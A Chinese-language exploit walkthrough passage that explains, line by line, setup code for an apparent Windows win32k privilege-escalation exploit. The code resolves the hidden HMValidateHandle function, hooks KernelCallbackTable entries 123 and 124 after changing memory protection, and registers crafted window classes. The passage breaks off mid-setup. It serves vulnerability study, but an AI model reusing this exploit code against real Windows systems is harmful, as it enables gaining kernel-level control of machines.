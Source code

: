 ```

FindHMValidateHandle(&fHMValidateHandle);    // user32!HMValidateHandle
```

189 – 198 获取一些未公开函数的地址，以便后面使用：

```
bool FindHMValidateHandle(FHMValidateHandle *pfOutHMValidateHandle)
{
    *pfOutHMValidateHandle = NULL;
    HMODULE hUser32 = GetModuleHandle(L"user32.dll");
    PBYTE pMenuFunc = (PBYTE)GetProcAddress(hUser32, "IsMenu");    // user32!IsMenu
    if (pMenuFunc) {
        for (int i = 0; i < 0x100; ++i) {
            if (0xe8 == *pMenuFunc++) {        // 找到第一个 call 指令(0xE8 是 call 指令的 opcode)
                DWORD ulOffset = *(PINT)pMenuFunc;    // call 指令的操作数是一个偏移，计算方法为（目标地址 - call 指令地址 - 5）
                *pfOutHMValidateHandle = (FHMValidateHandle)(pMenuFunc + 5 + (ulOffset & 0xffff) - 0x10000  - ((ulOffset >> 16 ^ 0xffff) * 0x10000) );    // 计算得到 user32!HMValidateHandle 地址
                break;
            }
        }
    }
    return *pfOutHMValidateHandle != NULL ? true : false;
}
```

其中 HMValidateHandle 函数地址通过 user32!IsMenu 的第一个 call 计算：

```
DWORD dwOldProtect = 0;
VirtualProtect((PBYTE)pKernelCallbackTable + 0x3D8, 0x400, PAGE_EXECUTE_READWRITE, &dwOldProtect);        // 给 KernelCallbackTable 所在的内存添加可写权限
*(ULONG_PTR*)((PBYTE)pKernelCallbackTable + 0x3D8) = (ULONG_PTR)MyxxxClientAllocWindowClassExtraBytes;    // hook 123 项
*(ULONG_PTR*)((PBYTE)pKernelCallbackTable + 0x3E0) = (ULONG_PTR)MyxxxClientFreeWindowClassExtraBytes;    // hook 124 项，调试用
VirtualProtect((PBYTE)pKernelCallbackTable + 0x3D8, 0x400, dwOldProtect, &dwOldProtect);    // 还原内存权限
```

200 – 204 行将 KernelCallbackTable 的 123、124 项替换成自己的挂钩函数：

```
NTSTATUS WINAPI MyxxxClientFreeWindowClassExtraBytes(PVOID pInfo)
{
    PVOID pAddress = *(PVOID*)((PBYTE)pInfo + 8);
    return g_fxxxClientFreeWindowClassExtraBytes(pInfo);    // 调用原函数
}
```

第 123 项的 hook 函数等到下面用到时再贴出来。第 124 项的 hook 应该是作者为了调试 EXP 而加的，其 hook 函数原封不动地调用了原函数：

```
ATOM atom1, atom2 = 0;

WNDCLASSEX WndClass = { 0 };
WndClass.cbSize = sizeof(WNDCLASSEX);
WndClass.lpfnWndProc = DefWindowProc;    // 使用默认窗口过程
WndClass.style = CS_VREDRAW| CS_HREDRAW;
WndClass.cbWndExtra = 0x20;                // Class1 窗口扩展内存的大小为 0x20
WndClass.hInstance = hInstance;
WndClass.lpszMenuName = NULL;
WndClass.lpszClassName = L"Class1";        // 窗口类名为 Class1
atom1 = RegisterClassEx(&WndClass);     // 注册 Class1

WndClass.cbWndExtra = g_dwMyWndExtra;    // Class2 窗口扩展内存的大小为 0x1234
WndClass.hInstance = hInstance;
```